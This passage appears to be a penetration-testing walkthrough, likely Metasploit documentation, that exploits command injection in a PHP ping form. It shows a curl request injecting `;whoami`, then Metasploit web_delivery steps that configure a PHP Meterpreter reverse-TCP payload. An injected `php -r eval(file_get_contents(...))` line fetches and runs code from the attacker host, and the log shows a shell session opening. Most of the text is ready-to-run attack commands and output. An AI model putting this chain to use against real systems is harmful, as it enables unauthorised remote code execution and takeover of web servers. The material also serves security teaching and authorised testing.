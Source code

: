 ```
```

We can verify this page is exploitable by chaining commands so instead of submitting `127.0.0.1` we'll submit `127.0.0.1;whoami`.

`curl -X POST http://127.0.0.1/example.php --data-urlencode "ip=127.0.0.1;whoami&submit=submit"`

```
<html>
  <body>
    PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.016 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.016/0.016/0.016/0.000 ms
www-data
<hr><form method="post"
             action="/example.php"
             enctype="application/x-www-form-urlencoded"
             name="ping">
             <p>Enter IP to ping:</p><input type="text" name="ip" value="" />
             <input type="submit" name="submit" value="submit" /></form>  </body>
</html>
```

### Exploitation

1. `use exploit/multi/script/web_delivery`
2. `set lhost 192.168.2.117`
3. `set target 1`
4. `set payload php/meterpreter/reverse_tcp`
5. `exploit`
```
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Using URL: http://0.0.0.0:8080/de3uw0
[*] Local IP: http://192.168.2.117:8080/de3uw0
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.2.117:8080/de3uw0'));"
msf exploit(web_delivery) >
```
Now browse to the site, and submit the form with the text `127.0.0.1;php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.2.117:8080/de3uw0'));"`.  If the site seems to freeze, exploitation was most likely successful.
```
[*] 192.168.2.117    web_delivery - Delivering Payload
[*] Sending stage (33986 bytes) to 192.168.2.117
[*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.117:48138) at 2017-03-04 15:36:31 -0500
```
